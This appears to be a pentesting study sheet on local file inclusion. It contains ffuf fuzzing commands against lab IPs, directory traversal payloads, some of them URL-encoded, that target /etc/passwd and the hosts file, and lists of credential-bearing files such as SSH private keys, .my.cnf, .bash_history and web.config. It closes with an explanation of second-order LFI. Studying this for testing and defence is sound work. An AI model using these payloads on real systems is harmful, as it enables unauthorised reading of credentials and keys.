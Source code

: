 1. View users on machine
2. Search for SSH Keys
3. Search for passwords in log or configuration files (.htaccess, config.php)

```bash
ffuf -w ~/opt/wordlists/burp-parameter-names.txt:FUZZ -u 'http://94.237.56.156:53371/index.php?FUZZ=value'

ffuf -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://94.237.56.156:53371/index.php?page=FUZZ'

ffuf -w ~/opt/wordlists/LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>/index.php?language=../../../../FUZZ'
```


```http
/../../../../../../../../../etc/passwd
../../../../../../../../../etc/passwd
../../../../../../../../../windows/system32/drivers/etc/hosts
..\..\..\..\..\..\..\..\..\windows\system32\drivers\etc\hosts

/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/windows/system32/drivers/etc/hosts
\%2e%2e\%2e%2e\%2e%2e\%2e%2e\%2e%2e\%2e%2e\%2e%2e\%2e%2e\windows\system32\drivers\etc\hosts
```

##### SSH Keys
```bash
id_rsa
id_ecdsa
id_ecdsa_sk
id_ed25519
id_ed25519_sk
id_dsa

authorized_keys
id_rsa.keystore
id_rsa.pub
known_hosts
```

##### HTTPD, Apach2, Nginx logs
```bash
/var/log/apache/access.log 
/var/log/apache2/access.log 
/var/log/apache/access_log 
/var/log/apache2/access_log
/var/log/access_log
/var/log/nginx/access.log 
/var/log/nginx/access_log 
/etc/httpd/logs/acces_log 
/etc/httpd/logs/error_log 
/var/www/logs/access_log 
/var/www/logs/access.log 
/usr/local/apache/logs/access. log 
/opt/apache2/logs/access_log
/opt/apache2/logs/access.log
/opt/apache/logs/access_log
/opt/apache/logs/access.log
```

##### IIS
```bash
C:\inetpub\logs\LogFiles\W3SVC1\
C:\inetpub\wwwroot\web.config
```

##### Linux user specific
```bash
.bash_history
.mysql_history
.my.cnf
```

##### Windows
```powershell
c:\apache\php\php.ini 
c:\xampp\apache\bin\php.ini  
c:\xampp\apache\logs\access.log
c:\Program Files\Apache Group\Apache\conf\httpd.conf  
c:\Program Files\Apache Group\Apache2\conf\httpd.conf  
c:\Program Files\xampp\apache\conf\httpd.conf  
```

## Second-Order Attacks

As we can see, LFI attacks can come in different shapes. Another common, and a little bit more advanced, LFI attack is a `Second Order Attack`. This occurs because many web application functionalities may be insecurely pulling files from the back-end server based on user-controlled parameters.

For example, a web application may allow us to download our avatar through a URL like (`/profile/$username/avatar.png`). If we craft a malicious LFI username (e.g. `../../../etc/passwd`), then it may be possible to change the file being pulled to another local file on the server and grab it instead of our avatar.

In this case, we would be poisoning a database entry with a malicious LFI payload in our username. Then, another web application functionality would utilize this poisoned entry to perform our attack (i.e. download our avatar based on username value). This is why this attack is called a `Second-Order` attack.

Developers often overlook these vulnerabilities, as they may protect against direct user input (e.g. from a `?page` parameter), but they may trust values pulled from their database, like our username in this case. If we managed to poison our username during our registration, then the attack would be possible.

Exploiting LFI vulnerabilities using second-order attacks is similar to what we have discussed in this section. The only variance is that we need to spot a function that pulls a file based on a value we indirectly control and then try to control that value to exploit the vulnerability.
